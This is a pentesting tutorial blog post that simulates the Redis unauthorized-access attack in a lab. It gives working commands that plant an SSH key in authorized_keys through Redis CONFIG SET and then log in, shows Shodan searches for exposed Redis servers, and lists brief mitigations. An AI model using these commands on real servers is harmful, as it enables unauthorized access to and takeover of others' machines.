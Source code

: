 ```yaml
---
layout: post
title: "Simulating Redis Unauthorized Access Vulnerability"
excerpt: "If a Redis is publicly accessible and is not protected by password, a remote attacker can exploit this to gain unauthorized access to the server. Let's learn how to set up a vulnerable redis server and attack it. We will also explore how to search and verify vulnerable redis out there with powerful search engine Shodan and automated python exploit"
categories: [pentesting-simulation]
comments: true
image:
  feature: redis-unauth-acc-vul/redis-unauthorized-access.png
  show: true
tag: ['cybersecurity', 'pentesting', 'infosec', 'redis', 'vul-simulation']
---
```


Redis, is an open source, widely popular data structure tool that can be used as an in-memory distributed database, message broker or cache. Since it is designed to be accessed inside trusted environments, it should not be exposed on the Internet. However, some Redis' are bind to public interface and even has no password authentication protection. 


Under certain conditions, if Redis runs with the root account (or not even), attackers can write an SSH public key file to the root account, directly logging on to the victim server through SSH. This may allow hackers to gain server privileges, delete or steal data, or even lead to an encryption extortion, critically endangering normal business services.


The simplified flow of this exploit is:

	- Login to a unprotected Redis
	- Change it's backup location to .ssh directory
	- Write the SSH Keys to new backup location
	- Remote connect and login to the target server using SSH key

We should already be familiar how automatic SSH login with private + public keys works.

## Simulation

Now let's get our feet wet and set up a target machine. We'll need two machines, they can be real machines, virtual machines, or remote machines (VPS). As long as the attack end is able to ping the target end, we are good.


Environment setup for this example:

	- Target machine: Redis-3.2.11 on Ubuntu
	- Attack machine: Kali Linux

#### Set Up Target Machine:

First, let us set up the target machine with Redis. Download source code by
```bash
wget http://download.redis.io/releases/redis-3.2.11.tar.gz
```

Extract and build
```bash
tar xzf redis-3.2.11.tar.gz
cd redis-3.2.11
make
```

After make, we can use our favorite editor to open ```redis.conf``` in ```redis-3.2.11``` folder. In order to be remotely accessed, we will need to comment out line ```bind 127.0.0.1``` and disable ```protected-mode``` as shown below.

![redis.conf]({{ "/assets/upload/images/redis-unauth-acc-vul/redis.conf.png" | absolute_url }}){:class="post-image center"}

Now fire up Redis with the configuration file we just edited. Note that ```redis-server``` is in ```redis-3.2.11/src```.

```bash
src/redis-server redis.conf
```

So far, we have finished setting up the targer server. Additionally, we should also check if we have ```.ssh``` folder. If not, we should create it for the attack later. 


#### Attack Machine:

First, make sure we can ping the target. Then, we will generate a private key and public key for SSHing into the target machine later. Run the following command to generate SSH keys and leave passphrase empty.
```bash
ssh-keygen -t rsa
```

Next, enter the ```.ssh``` folder. If you are root user, enter ```/.ssh```, otherwise ```~/.ssh```, then copy the private key in to ```temp.txt```.

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
```

Some may be wondering that why do we put two blank lines before and after the public key? We will leave that as a mystery for right now if you don't know :)

![ssh-keygen]({{ "/assets/upload/images/redis-unauth-acc-vul/keygen.png" | absolute_url }}){:class="post-image center"}

Good! So far we have generated a pair a keys, we will need to find a way to smuggle the public key to the Redis server (target machine.)

We are going to use ```redis-cli```, the Redis command line interface, to send commands to Redis and read the replies sent by the server directly in the terminal. 

Run the following commands in ```redis-3.2.11/src``` folder. (Or depending where we are, we can always specify the path to the files we use)

```bash
#our SSH public key|            Remote Redis IP | Command | key file
cat /.ssh/temp.txt | redis-cli -h 203.137.255.255 -x set s-key
```

Here, let's' take a look at the command. We use ```-h``` flag to specify the remote Redis server IP so that ```redis-cli``` knows where to connect and send commands. The part after ```-x``` is saying that we are setting the key in redis named ```s-key``` with the value in ```temp.txt```. 

![set-key]({{ "/assets/upload/images/redis-unauth-acc-vul/set_key.png" | absolute_url }}){:class="post-image center"}

Yea, we have a key with our SSH key sneaked in! Let's connect to the Redis and play around its configuration. Use ```redis-cli``` to connect to the Redis server again.

![set-backup-dir]({{ "/assets/upload/images/redis-unauth-acc-vul/set_backup_dir.png" | absolute_url }}){:class="post-image center"}

Looking at the above screenshot, we first verify the value of the key ```s-key``` by using the command ```GET s-key```, which is what we want -- the public key with two blank lines before and after. Then I tried the command "dir" just to see what it says (kidding). What we actually want to do here is to get the value of "s-key" (SSH public key) stored in the ```.ssh``` folder so that we can remote SSH login to the target machine whithout having to type the password.

Thus, we will do this:

```bash
CONFIG GET dir #  get your redis directory
# In the output of above command "/home/xxxx/redis-3.2.11/src" is the directory where redis server is installed.

CONFIG SET dir /home/xxxx/.ssh # set the backup location to the .ssh folder
(or) CONFIG SET dir /root/.ssh 

CONFIG SET dbfilename authorized_keys

# lastly we back our data containing our "s-key" key-value pair up in the .ssh folder
save

```

> The authorized_keys file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured 
> Source: [ssh.com](https://www.ssh.com/ssh/authorized_keys/)


The screenshot shown above already demonstrates the steps mentioned here.


#### Harvest Time

On Attack Machine, try to SSH in the Target Machine using the following command.

```bash
# private key username@server IP
ssh -i id_rsa username@203.137.255.255
```

![sshkey-auth-login]({{ "/assets/upload/images/redis-unauth-acc-vul/sshkey_auth_login.png" | absolute_url }}){:class="post-image center"}


YAS! As we can see, we have a successful auto-login with SSH keys! Voila, we have now completed the attack simulation. :smile: (Smiley face actually means that I'm finally almost done writing this up :joy:)

At the end of this section, I would like to show what is Redis's backup file look like.

![sshkey-auth-login]({{ "/assets/upload/images/redis-unauth-acc-vul/sshkey_auth_login.png" | absolute_url }}){:class="post-image center"}

Notice the unreadable characters? Add "\n\n" before and after the key content was just to be safe and separate it from other "stuff" so that it can be parsed correctly. :ok_hand:

### Use Search Engine to find Vulnerable Redis Servers

Alrighty, as I mentioned, we are going to use [Shodan](https://www.shodan.io/) to search servers that has Redis footprint (characteristics).

Let us do a simple search by Redis' default port.

![shodan]({{ "/assets/upload/images/redis-unauth-acc-vul/shodan.png" | absolute_url }}){:class="post-image center"}

Looks like we have 75,665 search results. Aaaaaand guess what! Right down there (not shown but we can see it if we scroll down) there are TONS of host that has NO password protection!! :worried: :worried: :worried: 

This vulnerability was found years ago and now still countless of machines are opening up themselves in such an easy way for attackers to have fun in there server... 

According to Shodan, there are around **56,000 unprotected** Redis instances in 2015. 

![shodan-twitter]({{ "/assets/upload/images/redis-unauth-acc-vul/shodan_twit.png" | absolute_url }}){:class="post-image center"}

According to ZoomEye, the distribution of the instances is.

![zoomeye-dist]({{ "/assets/upload/images/redis-unauth-acc-vul/zoomeye_dist.png" | absolute_url }}){:class="post-image center"}

The top ranking countries of these instances are: China, USA, Germany...

![zoomeye-dist-rank]({{ "/assets/upload/images/redis-unauth-acc-vul/zoomeye_dist_rank.png" | absolute_url }}){:class="post-image center"}

Okay, back to the business. So how do we verify if a server is protected using python? It turns out to be fairly simple.

1. Use socket to connect to the target IP
2. Perform a GET request
3. If the server is unprotected, you GET request will succeed; otherwise it will fail

![redis-python-verify]({{ "/assets/upload/images/redis-unauth-acc-vul/redis_python.png" | absolute_url }}){:class="post-image center"}


## Mitigation

- Don't bind to 0.0.0.0
- If you have to, change the default port (6379)
- Set a password (for everything)
